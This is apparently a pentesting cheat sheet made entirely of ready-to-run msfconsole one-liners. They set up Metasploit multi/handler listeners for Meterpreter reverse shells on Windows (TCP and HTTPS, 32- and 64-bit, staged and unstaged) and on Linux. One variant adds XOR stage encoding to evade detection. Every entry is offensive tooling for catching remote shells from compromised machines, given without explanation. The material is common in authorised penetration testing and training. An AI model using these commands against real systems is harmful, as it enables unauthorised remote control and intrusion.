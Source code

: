 # Metasploit Handler

## Metasploit Handler - Windows TCP 32-bit (staged)
```
msfconsole -x "use exploits/multi/handler; set lhost <lhost>; set lport <lport>; set payload windows/meterpreter/reverse_tcp; exploit"
```

## Metasploit Handler - Windows TCP 64-bit (staged)
```
msfconsole -x "use exploits/multi/handler; set lhost <lhost>; set lport <lport>; set payload windows/x64/meterpreter/reverse_tcp; exploit"
```

## Metasploit Handler - Windows HTTPS 32-bit (staged)
```
msfconsole -x "use exploits/multi/handler; set lhost <lhost>; set lport <lport|443>; set payload windows/meterpreter/reverse_https; set EXITFUNC thread; exploit"
```

## Metasploit Handler - Windows HTTPS 64-bit (staged)
```
msfconsole -x "use exploits/multi/handler; set lhost <lhost>; set lport <lport|443>; set payload windows/x64/meterpreter/reverse_https; exploit"
```

## Metasploit Handler - Windows HTTPS 32-bit (unstaged)
```
msfconsole -x "use exploits/multi/handler; set lhost <lhost>; set lport <lport|443>; set payload windows/meterpreter_reverse_https; exploit"
```

## Metasploit Handler - Windows HTTPS 64-bit (unstaged)
```
msfconsole -x "use exploits/multi/handler; set lhost <lhost>; set lport <lport|443>; set payload windows/x64/meterpreter_reverse_https; exploit"
```

## Metasploit Handler - Windows HTTPS 64-bit (staged, encoded xor)
```
msfconsole -x "use exploits/multi/handler; set lhost <lhost>; set lport <lport|443>; set payload windows/x64/meterpreter/reverse_https; set EXITFUNC thread; set EnableStageEncoding true; set StageEncoder <encoder|x64/xor_dynamic>; exploit"
```

## Metasploit Handler - Linux TCP 32-bit (staged)
```
msfconsole -x "use exploits/multi/handler; set lhost <lhost|tun0>; set lport <lport|443>; set payload linux/x86/meterpreter/reverse_tcp; set EXITFUNC thread; exploit"
```

